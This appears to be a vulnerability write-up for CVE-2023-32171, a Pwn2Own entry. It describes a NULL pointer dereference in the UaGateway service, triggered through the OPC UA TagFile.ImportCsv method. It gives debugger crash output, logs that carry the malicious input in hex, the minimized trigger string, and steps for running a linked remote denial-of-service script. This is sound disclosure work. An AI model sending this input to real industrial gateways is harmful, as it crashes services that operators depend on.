



# CVE-2023-32171 (Pwn2Own Miami 2023 entry): Null Pointer Dereference Denial-of-Service Vulnerability

<p align='center'>

</p>

## High-level overview
The vulnerability is a NULL pointer dereference when parsing an attacker-provided broken XML string via the method `TagFile.ImportCsv` which is invokable by any authenticated users (anonymous is fine). This leads to crashing the service (temporary DoS). This bug was discovered with [wtf](https://github.com/0vercl0k/wtf) by fuzzing the internal XML parsing code.

<p align='center'>

</p>

## Root Cause Analysis

The issue exploited is a NULL pointer dereference that happens when passing a broken XML string to one of the method that users can invoke to import data structures into the namespace. This is documented in [Tag File Import Formats](https://documentation.unified-automation.com/uagateway/1.5.1/html/tagfile_import_format.html).

The object is available in *Objects* > *DeviceSet* > *Tag File* > *MethodSet* (`ns=1;s=TagFile.MethodSet`) and the method is called *TagFile.ImportCsv* (`ns=1;s=TagFile.ImportCsv`).

<p align='center'>

</p>

This the crash that you should observe when attaching to `uagateway.exe`:
```
0:050> g
(12dc.238c): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
uagateway+0x7b1540:
00bb1540 8a0a            mov     cl,byte ptr [edx]          ds:002b:00000000=??

0:044:x86> kp
 # ChildEBP RetAddr  
WARNING: Stack unwind information not available. Following frames may be wrong.
00 00000000 00000000 uagateway+0x7b1540
```

`@edx` is supposed to be a string pointer, but is NULL which leads to the crash. By turning on the log we can see interesting information:
```
05:06:08.734Z|4|1920* ==> UaServer::Call [Request=5]
05:06:08.734Z|6|1920* --> UaSession::startingServiceProcessing [ID=-1780890077]
05:06:08.749Z|6|1920* <-- UaSession::startingServiceProcessing - activeServiceCount = 1
05:06:08.765Z|6|1920* --> UaTransactionManager::beginMethodCall with 1 calls
05:06:08.765Z|6|1920* --> UaTransactionManager::executeMethodCall with 1 calls
05:06:08.781Z|7|1920* Call Request:
05:06:08.796Z|7|1920*   NoOfMethodsToCall = 1
05:06:08.796Z|7|1920*     Method 0:
05:06:08.812Z|7|1920*       ObjectId = NS1|String|TagFile.MethodSet
05:06:08.812Z|7|1920*       MethodId = NS1|String|TagFile.ImportCsv
05:06:08.827Z|7|1920*       NoOfInputArguments = 1
05:06:08.827Z|6|0424* <-- IOManagerUaNode::finishTransaction [ret=0x0]
05:06:08.843Z|7|1920*         InputArgument[0] = 3C 4E 61 6D 65 73 70 61 63 65 49 6E 64 65 78 3E 3B 3C 4E 61 6D 65 73 70 61 63 65 55 72 69 3E 0A 30 3B 68 74 74 70 3A 2F 2F 75 6E 69 66 69 65 64 61 75 74 6F 6D 61 74 69 6F 6E 2E 63 6F 6D 2F 54 61 67 46 69 6C 65 2F 0A 3C 4E 6F 64 65 43 6C 61 73 73 3E 3B 3C 4C 65 76 65 6C 3E 3B 3C 4E 61 6D 65 3E 3B 3C 54 79 70 65 44 65 66 3E 3B 3C 50 72 6F 74 6F 63 6F 6C 3E 3B 3C 41 64 64 72 65 73 73 3E 3B 3C 41 63 63 65 73 73 4C 65 76 65 6C 3E 0A 56 3B 31 3B 3B 3B 3B 55 49 6E 74 33 32 2E 31 2E 34 3D 7B 27 38 38 27 2C 27 2C 27 37 37 27 36 36 27 2C 27 35 35 27 7D 3B 52
05:06:08.843Z|6|1920* --> TagFileModuleType::ImportCsv
05:06:08.859Z|6|1920* --> ModuleTagFile::importCsv
05:06:08.874Z|6|1920* --> TagFileCsvParser::parserCSV
05:06:08.890Z|6|1920* --> TagFile::createInstanceNode nodeId=ns=1;s=
05:06:08.890Z|1|1920* TagFile::createInstanceNode - pBaseNode == 0
05:06:08.906Z|6|1920* <-- TagFile::createInstanceNode

(b24.1920): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
uagateway+0x7b1540:
00bb1540 8a0a            mov     cl,byte ptr [edx]          ds:002b:00000000=??
```

`TagFileCsvParser::parserCSV` is at `00429210` and it basically parses the input string line by line. The logic is pretty complex and tedious to reverse-engineer. Instead, while minimizing the input testcase, I noticed that the crucial part is the following: `UInt32.1.4={'88',','77'66','55'}`.

## PoC
- Simulate a client connected to the server using [UaExpert](https://www.unified-automation.com/products/development-tools/uaexpert.html) like in the above
- Install `opcua-asyncio` with `$ pip3 install asyncua`
- Run the [CVE-2023-32171-UaGateway-RemoteDoS.py](./CVE-2023-32171-UaGateway-RemoteDoS.py) script, use `--target` for the IP of the remote server, `--port` for the port
- The connected client should timeout and shouldn't be able to reconnect, the `uagateway.exe` process shouldn't be running as it crashed
